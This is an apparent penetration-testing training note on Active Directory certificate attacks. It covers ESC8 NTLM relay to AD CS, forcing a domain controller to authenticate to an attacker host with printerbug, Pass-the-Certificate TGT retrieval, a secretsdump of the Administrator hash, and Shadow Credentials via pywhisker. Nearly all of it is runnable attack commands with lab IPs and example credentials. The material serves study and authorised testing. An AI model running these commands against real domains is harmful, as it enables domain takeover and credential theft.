 # Pass the Certificate

Used in conjunction with:

- [Attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c)

## [AD CS](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831740(v=ws.11)) NTLM Relay Attack (ESC8)

ESC8 is an NTLM relay attack targeting an ADCS HTTP endpoint.

Use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service.

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

> --template `KerberosAuthentication` can vary, use tools like [certipy](https://github.com/ly4k/Certipy) to enumerate.

Wait for a user to authenticate or force authentication with [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py).

```bash
# Forces 10.129.234.109 (DC01) to attempt authentication
# against 10.10.16.12 (attacker host)

python3 printerbug.py EXAMPLE.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

# Watch for output on ntlmrelayx
```

Perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py).

```bash
# Install
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
pip3 install -r requirements.txt

# If error
pip3 install -I git+https://github.com/wbond/oscrypto.git
# Kali fix error
wget http://launchpadlibrarian.net/732112002/python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb
sudo dpkg -i python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb 
wget http://launchpadlibrarian.net/715850281/python3-openssl_24.0.0-1_all.deb
sudo dpkg -i python3-openssl_24.0.0-1_all.deb

# Grab the ccache
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'example.local/dc01$' /tmp/dc.ccache

# Retrieve the hash and have at it
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'EXAMPLE.LOCAL/DC01$'@DC01.EXAMPLE.LOCAL
```

---

## Shadow Credentials (msDS-KeyCredentialLink)

[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user.

Use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system.

```bash
# Generate X.509 certificate write public key to msDS-KeyCredentialLink
pywhisker --dc-ip 10.129.234.109 -d EXAMPLE.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

# Use the generated file eFUVVTPf.pfx and password to get TGT as victim
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 EXAMPLE.LOCAL/jpinkman /tmp/jpinkman.ccache

# pass the ticket
export KRB5CCNAME=/tmp/jpinkman.ccache
klist

# Connect with evil-winrm - check if krb5.conf is properly configured
evil-winrm -i dc01.example.local -r example.local
```

> The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing  passwords or granting DCSync rights). This attack is outside the scope  of this module but is worth reading about [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

